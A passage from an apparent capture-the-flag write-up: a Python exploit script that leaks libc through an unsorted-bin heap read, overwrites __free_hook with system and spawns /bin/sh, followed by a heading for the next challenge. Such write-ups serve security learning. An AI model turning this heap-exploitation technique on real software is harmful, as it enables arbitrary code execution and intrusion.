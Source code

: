 ```python
# Free node 2 for the unsorted bin leak: the freed chunk now contains pointers to the main arena.
disconnect(nb, n2)
gc()
# Craft n1 so that we can read the pointers from the heap.
crafted = craft(n1, text_idx=n1, text_len=0x100)
print('writing', len(crafted), 'bytes:', crafted)
write_text(nb, crafted)
leak = read(n1)
print(leak)
leak_libc = u64(leak[160:160+8])
print('leak arena:', hex(leak_libc))
leak_offset = 2014176 # main_arena + 96
main_arena = 0x7ffff7c2cb80 # libc.symbols['main_arena']
print('main_arena', hex(main_arena))
print('leak_offset', hex(leak_offset))
libc_base = leak_libc - leak_offset
print('libc base:', hex(libc_base))
pause()

# Step 2: write what-were to get a shell.
libc.address = libc_base
system = libc.symbols['system']
what = system
print('system:', hex(system))
free_hook = libc.symbols['__free_hook']
where = free_hook
print('__free_hook:', hex(free_hook))
# write_bin bug again to control a second node.
write_bin(n3, '')
# This node can be overwritten with n3.text.
n4 = create(na)
# Prepare nodes for arbitrary write.
wherenode = craft(n1, edges=where-8, last_edge=where, edges_end=where+32)
whatnode = craft(n4, pool_idx=what)
write_text(n3, whatnode)
write_text(nb, wherenode)
# Trigger arbitrary write.
connect(n1, n4)
pause()

# Write in a chunk and trigger the free in write_text to call system("/bin/sh").
write_text(nb, b'/bin/sh\x00')
write_text(nb, 'A'*1500, shell=True)
p.interactive()
```


Spark
-----

> Shortest Path AlgoRithm in Kernel!
>
> `nc 3.113.76.29 9427`
